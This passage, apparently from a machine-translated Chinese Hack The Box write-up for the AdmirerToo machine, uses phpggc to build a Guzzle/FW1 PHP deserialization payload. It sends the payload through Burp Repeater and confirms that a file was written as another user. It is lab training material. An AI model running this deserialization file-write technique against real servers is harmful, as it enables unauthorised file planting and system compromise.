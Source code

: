 如果需要，安装。现在创建我们的测试文件并使用 phpggc 给我们一个序列化的对象:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "this is a test" > pencer.txt

┌──(root💀kali)-[~/htb/admirertoo]
└─# phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/pencer.txt /root/htb/admirertoo/pencer.txt 
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Fpencer.txt%2<SNIP>%3B%7D
```

# 文件丢弃

现在粘贴到打嗝，并替换已经存在的:

![](img/e3d77c7d2064d596d816075c5e92f1ec.png)

将有效负载粘贴到打嗝

使用中继器发送请求，我们看到一个 200 OK 响应。切换到机器上的 SSH 会话，检查我们刚才放在那里的文件:

```
jennifer@admirertoo:~$ ls -l /dev/shm/
4 -rw-r--r--  1 devel devel   58 Mar  3 21:46 pencer.txtjennifer@admirertoo:~$ cat /dev/shm/pencer.txt 
[{"Expires":1,"Discard":false,"Value":"this is a test\n"}]
```

该文件属于另一个名为 devel 的用户。我们可以查找用户有权访问的位置:
